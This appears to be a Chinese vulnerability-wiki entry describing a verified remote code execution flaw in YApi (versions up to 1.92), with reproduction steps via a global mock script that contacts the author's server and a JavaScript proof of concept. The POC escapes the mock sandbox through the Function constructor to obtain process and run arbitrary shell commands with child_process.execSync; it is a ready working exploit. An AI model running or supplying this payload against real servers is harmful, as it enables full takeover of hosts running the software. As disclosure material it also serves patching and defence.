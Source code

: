 <languages />

<center>
|:-:|:-:|
|![](Check.png "Check.png")|**<translate>該漏洞已通過驗證</translate>**

* * * * *

<small><translate>本頁面的EXP/POC/Payload經測試可用，漏洞已經成功復現。</translate></small>|

</center>
<translate>

影響版本
--------

</translate> \<=V1.92 All

<translate>

漏洞復現
--------

</translate>

<translate>

漏洞復現
--------

</translate> <translate> 登錄註冊後，創建一個項目 </translate>

![](124460388-eaa46100-ddc1-11eb-80c4-2bddb97df8e1.png "124460388-eaa46100-ddc1-11eb-80c4-2bddb97df8e1.png")

<translate> 然後選擇設置全局的mock腳本，設置命令為遠程訪問我的服務器地址。 </translate>

![](124460511-090a5c80-ddc2-11eb-92f6-46c9b3b498bb.png "124460511-090a5c80-ddc2-11eb-92f6-46c9b3b498bb.png")

<translate> 添加接口，訪問接口的mock地址 </translate>

![](124460629-2dfecf80-ddc2-11eb-98c3-b96f7174d8f1.png "124460629-2dfecf80-ddc2-11eb-98c3-b96f7174d8f1.png")

<translate> 服務器可以看到如下響應 </translate> ![](124460757-5686c980-ddc2-11eb-87df-09e0f9ac08af.png "fig:124460757-5686c980-ddc2-11eb-87df-09e0f9ac08af.png")

POC
---

    const sandbox = this
    const ObjectConstructor = this.constructor
    const FunctionConstructor = ObjectConstructor.constructor
    const myfun = FunctionConstructor('return process')
    const process = myfun()
    mockjson = process.mainModule.require("child_process").execSync("command").toString()

<translate>

參考
----

</translate> <https://github.com/YMFE/yapi/issues/2233>